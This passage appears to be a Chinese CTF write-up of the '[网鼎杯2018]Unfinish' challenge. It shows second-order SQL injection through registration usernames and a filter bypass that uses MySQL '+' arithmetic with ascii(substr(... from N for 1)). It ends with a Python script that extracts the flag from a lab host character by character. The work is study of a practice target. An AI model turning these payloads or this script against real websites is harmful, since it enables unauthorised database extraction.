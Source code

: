 ```yaml
---
title: '[网鼎杯2018]Unfinish'
date: 2024-06-17 20:57:45
tags: 
     - 题解
     - sql注入
categories: 刷题笔记
---
```


## [网鼎杯2018]Unfinish（'+'在sql注入的应用）

我们在register页面先随便注册一个账号登录

![image-20240617211257114](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202406172113379.png)

在页面中我们能看到我们的用户名

![image-20240617211327687](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202406172113255.png)

我们猜测在用户名处存在二次注入

为了验证我们的猜想，我们再次注册一个账号

![在这里插入图片描述](https://img-blog.csdnimg.cn/20210415175724563.png)

![在这里插入图片描述](https://img-blog.csdnimg.cn/20210415175745635.png)

发现用户名变为0了，说明存在二次注入

我们对用户名进行fuzz，发现逗号，information等许多关键字被过滤了

绕过方法：

mysql中，+只能当做运算符

当我们执行select  '1' + '1a'时 结果

![在这里插入图片描述](https://img-blog.csdnimg.cn/20210415180818324.png)

执行select  '0'+database();

![在这里插入图片描述](https://img-blog.csdnimg.cn/20210415180904669.png)

变成了0，我们用ascii码进行计算

select '0'+ascii(substr(database(),1,1));

![在这里插入图片描述](https://img-blog.csdnimg.cn/20210415181036615.png)

出来了库的第一位的ascii值

我们回到题目，由于逗号被过滤了，我们用from for 来代替

0'+ascii(substr(database() from 1 for 1))+'0;

![image-20240617212324402](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202406172123509.png)

成功回显，因为过滤了information，我们猜测字段名为flag

最后，我们借鉴个脚本

```
import requests
import logging
import re
from time import sleep

# LOG_FORMAT = "%(lineno)d - %(asctime)s - %(levelname)s - %(message)s"
# logging.basicConfig(level=logging.DEBUG, format=LOG_FORMAT)

def search():
    flag = ''
    url = 'http://b52b0533-2f84-4c9b-bd73-e912ab23a59f.node3.buuoj.cn/'
    url1 = url+'register.php'
    url2 = url+'login.php'
    for i in range(100):
        sleep(0.3)#不加sleep就429了QAQ
        data1 = {"email" : "1234{}@123.com".format(i), "username" : "0'+ascii(substr((select * from flag) from {} for 1))+'0;".format(i), "password" : "123"}
        data2 = {"email" : "1234{}@123.com".format(i), "password" : "123"}
        r1 = requests.post(url1, data=data1)
        r2 = requests.post(url2, data=data2)
        res = re.search(r'<span class="user-name">\s*(\d*)\s*</span>',r2.text)
        res1 = re.search(r'\d+', res.group())
        flag = flag+chr(int(res1.group()))
        print(flag)
    print("final:"+flag)

if __name__ == '__main__':
    search()

```

![image-20240617212845932](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202406172128000.png)

虽然有点离谱，但flag好歹出来了
